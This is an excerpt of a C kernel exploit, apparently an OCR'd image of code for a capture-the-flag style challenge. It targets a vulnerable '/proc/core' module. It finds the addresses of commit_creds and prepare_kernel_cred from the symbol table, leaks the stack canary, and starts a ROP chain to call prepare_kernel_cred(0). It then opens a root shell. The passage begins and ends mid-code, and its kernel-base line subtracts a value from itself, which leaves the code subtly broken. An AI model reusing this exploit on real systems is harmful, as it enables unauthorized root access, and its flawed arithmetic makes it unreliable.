 ```
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}


void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  //getchar();
  
  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = POP_RDI_RET + vmlinux ; 
  rop_chain[i++] = 0;
  rop_chain[i++] = prepare_kernel_cred ;          //prepare_kernel_cred(0)
  rop_chain[i++] = POP_RDX_RET + vmlinux;
```